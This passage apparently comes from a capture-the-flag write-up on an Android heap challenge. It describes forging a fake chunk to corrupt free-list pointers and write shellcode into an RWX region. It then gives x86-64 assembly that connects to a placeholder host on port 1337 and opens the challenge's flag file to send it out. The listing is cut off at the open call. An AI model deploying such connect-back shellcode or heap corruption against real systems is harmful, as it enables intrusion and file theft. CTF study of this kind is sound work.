 - Helps converting the 8 byte data stream in little endian to write specific address into memory.

### Bug:

- We are able to free arbitrary pointers eventough it has some basic restrictions. Hence, Forging a fake chunk and using that to access the free list pointers on top of the heap. 
- Manipulating the free_list pointers will get us to arbitrary write and hence writing out shellcode into the RWX region. This was the main aim of the challenge.

## Writing Reverse Shellcode:
- Create a socket.
- Establish a connection to the ip, port that you have a listening port open on.
- Finally do Open, Read, Write, to the opened socket to print out the flag.

```asm
global _start
section .text

_start:
socket:
	push 0x29
	pop rax
	push 0x02
	pop rdi
	push 0x01
	pop rsi
	xor edx, edx
	syscall

	mov r9, rax

connect:
	push 0x2a
	pop rax

	mov rdi, r9

	; creating sockaddr data structure
	push rdx			; pushing padding
	push rdx

	push 0xdeadbeef     ; pushing INADDR_ANY
	push word 0x3905	; pushing PORT: 1337
	push word 0x0002	; pushing AF_INET

	mov rsi, rsp
	add rdx, 0x10
	syscall

open:
	mov rax, 2
	mov r8, 0x0000000000000067
	push r8
	mov r8, 0x616c662f65676e65
	push r8
	mov r8, 0x6c6c6168632e6469
	push r8
	mov r8, 0x6f72646e612e6674
	push r8
	mov r8, 0x63733069622f6174
	push r8
	mov r8, 0x61642f617461642f
	push r8
	mov rdi, rsp
```